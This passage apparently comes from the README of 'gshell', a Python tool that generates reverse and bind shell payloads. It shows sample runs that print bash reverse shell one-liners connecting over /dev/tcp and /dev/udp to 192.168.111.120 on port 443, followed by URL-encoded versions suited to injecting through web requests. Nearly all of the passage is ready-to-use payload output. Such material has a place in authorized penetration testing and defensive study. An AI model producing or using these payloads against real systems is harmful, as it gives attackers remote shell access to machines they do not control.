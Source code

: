 > Note: Replace `<PORT>` with the port number of the target.

## Example of Bind Shells & Reverse Shells

Example, generate bash reverse shells:

```sh
PS C:\gshell> python .\gshell.py -i 192.168.111.120 -p 443  -r -s bash 
[+] The IPv4 address: 192.168.111.120 is valid.
[+] The port number: 443 is valid.
[+] Shell type is valid
[+] Preparing reverse shells
[+] Generating bash shells
bash -i >& /dev/tcp/192.168.111.120/443 0>&1

----------------NEXT CODE BLOCK----------------

0<&196;exec 196<>/dev/tcp/192.168.111.120/443; sh <&196 >&196 2>&196

----------------NEXT CODE BLOCK----------------

/bin/bash -l > /dev/tcp/192.168.111.120/443 0<&1 2>&1

----------------NEXT CODE BLOCK----------------

bash -i >& /dev/tcp/192.168.111.120/443 0>&1

----------------NEXT CODE BLOCK----------------

bash -i >& /dev/udp/192.168.111.120/443 0>&1
```

## Example of Encodings

Here is an example of an encoding:

```sh
PS C:\gshell> python .\gshell.py -i 192.168.111.120 -p 443 -r -s bash --url 
[+] The IPv4 address: 192.168.111.120 is valid.
[+] The port number: 443 is valid.
[+] Shell type is valid
[+] Preparing reverse shells
[+] Generating bash shells
[+] Adding URL Encoding
bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.111.120%2F443+0%3E%261%0A

----------------NEXT CODE BLOCK----------------

0%3C%26196%3Bexec+196%3C%3E%2Fdev%2Ftcp%2F192.168.111.120%2F443%3B+sh+%3C%26196+%3E%26196+2%3E%26196%0A

----------------NEXT CODE BLOCK----------------

%2Fbin%2Fbash+-l+%3E+%2Fdev%2Ftcp%2F192.168.111.120%2F443+0%3C%261+2%3E%261%0A

----------------NEXT CODE BLOCK----------------

bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.111.120%2F443+0%3E%261%0A

----------------NEXT CODE BLOCK----------------

bash+-i+%3E%26+%2Fdev%2Fudp%2F192.168.111.120%2F443+0%3E%261

----------------NEXT CODE BLOCK----------------

```